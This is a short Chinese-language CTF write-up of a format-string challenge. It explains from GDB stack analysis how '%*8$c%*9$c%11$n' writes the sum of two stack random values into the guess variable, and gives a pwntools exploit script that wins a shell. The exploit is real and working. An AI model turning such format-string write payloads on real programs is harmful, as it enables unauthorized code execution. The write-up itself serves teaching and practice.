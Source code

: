 # fmt

典型的格式化字符串漏洞, 先分析程序.当输入的结果和两个随机数的和相等时,直接拿到shell

![g5D8ld.png](https://z3.ax1x.com/2021/05/19/g5D8ld.png)

通过gdb调试,在输入数据后查看栈地址,会发现两个随机数在栈上的2,3个参数,输入数据在第5个参数,由于64位特性,前六个参数压入rdi 、rsi、rdx、 rcx 、r8 和 r9得知随机数存在第8,9个参数中,猜测的数存在第11个参数中,通过格式化字符串%*将第八第九个参数以空格数量形式表示,通过%n根据前面字符数量向指定地址写入数据，达到猜中效果.

![gTI1bV.png](https://z3.ax1x.com/2021/05/20/gTI1bV.png)

~~~
from pwn import *

context(log_level = 'debug')

p = process('./ans')
# p = remote("10.212.27.23", 15329)
payload = "%*8$c%*9$c%11$n"
p.recvuntil('?\n')

p.sendline(payload)
p.recvuntil('gift.\n')
p.sendline(b'1')
p.interactive()
~~~

